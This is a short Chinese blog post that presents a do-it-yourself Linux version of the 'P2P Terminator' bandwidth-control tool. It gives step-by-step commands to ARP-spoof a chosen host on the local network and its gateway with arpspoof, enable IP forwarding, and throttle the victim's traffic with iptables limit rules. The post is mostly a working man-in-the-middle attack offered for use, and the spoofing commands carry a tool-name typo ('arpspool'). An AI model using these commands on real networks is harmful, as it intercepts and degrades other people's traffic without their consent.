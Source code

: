 ```yaml
---
layout: post
title: P2P 终结者 for Linux
---
```


很长一段时间，都在渴望一个 for Linux 的 P2P 终结者。

但是，谁让我们是小众群体呢？所以，没有。

但是，今天我突发奇想，找到了！用脚本实现了 P2P 终结者！

问题是这样的，首先我需要一个 arp 欺骗工具。呵呵， dsniff 就是！

执行  arpspoof 就可以进行 ARP 欺骗了。 不过，呵呵，我只对需要控制的主机进行 ARP 欺骗，比如 192.168.1.100


	arpspool -i eth0 -t 192.168.1.100 192.168.1.1 
	arpspool -i eth0 -t 192.168.1.1 192.168.1.100 


这样成功的让 192.168.1.100 到  192.168.1.1 之间的通讯全部通过自己了

然后，我打开 内核的 IP 转发。
 echo 1 > /proc/sys/net/ipv4/ip_forward 


呵呵，现在，怎么限速就是我的事情啦！ 可以使用 tc 限速，也可以简单的时候 iptables 限速！
比如，使用  iptables 的 limit 匹配模块来限速. 一秒钟是能发送和接收 3 个数据包，这样速度就限制到 4k/s 了


	iptables -A FORWARD -s 192.168.1.100 -m limit --limit 3/s -j ACCEPT          
	iptables -A FORWARD -d 192.168.1.100 -m limit --limit 3/s -j ACCEPT                 
	iptables -A FORWARD -s 192.168.1.100  -j DROP                                                
	iptables -A FORWARD -d 192.168.1.100  -j DROP                                             